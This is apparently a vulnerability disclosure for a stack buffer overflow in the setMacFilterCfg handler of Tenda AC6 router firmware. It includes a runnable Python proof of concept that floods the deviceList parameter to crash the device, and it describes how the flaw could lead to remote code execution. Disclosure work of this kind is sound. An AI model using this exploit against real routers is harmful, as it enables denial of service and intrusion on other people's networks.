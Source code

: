 # CVE Submission: Stack-Based Buffer Overflow in Tenda AC6V1.0(firmware V15.03.05.19) setMacFilterCfg

## Summary
A stack-based buffer overflow vulnerability in the Tenda AC6V1.0 router (firmware V15.03.05.19) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `deviceList` parameter in the `/goform/setMacFilterCfg` endpoint. The flaw resides in the `sub_BE73C` function (aliased as `parse_macfilter_rule`), which uses unsafe `strcpy` operations without bounds checking, enabling stack corruption.
![PoC 2 Result: Root Directory Listing](./img/0.png)
## Details
- **Vendor**: Tenda
- **Product**: Tenda AC6V1.0 
- **Firmware Version**: V15.03.05.19
- **Firmware Download**: [https://tenda.com.cn/material/show/2681](https://tenda.com.cn/material/show/2681)
- **Component**: `/goform/setMacFilterCfg` (functions `formSetMacFilterCfg` and `sub_BE73C`)
- **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
- **CVE ID**: Pending
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description
The vulnerability exists in the `formSetMacFilterCfg` function, which processes HTTP POST requests to `/goform/setMacFilterCfg`. The `deviceList` parameter is passed to `sub_BD758` and then to `sub_BE73C` (parse_macfilter_rule). The portion after `\r` is copied into a fixed-size buffer using `strcpy(a2, src)` without length validation. If the input exceeds the buffer size, it overflows the stack, potentially overwriting return addresses or other critical data.
![PoC 2 Result: Root Directory Listing](./img/1.png)
This allows attackers to:
- Cause a denial of service (DoS) by crashing the router.
- Achieve remote code execution (RCE) by crafting a payload with ROP gadgets.



## PoC: Python Exploit Script
```python
from pwn import *
import requests

payload = cyclic(1000)  # 1000-byte cyclic pattern to overflow buffer
url = "http://192.168.xxx.xxx/goform/setMacFilterCfg"
cookie = {"Cookie": "password=rfl1qw"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)  # Double POST to bypass potential checks
print(response.text)
```
![PoC 2 Result: Root Directory Listing](./img/2.png)

## Impact
- **Denial of Service (DoS)**: The oversized payload crashes the router’s web server, disrupting network connectivity and management access.
- **Remote Code Execution (RCE)**: With a crafted ROP chain, attackers can execute arbitrary commands.

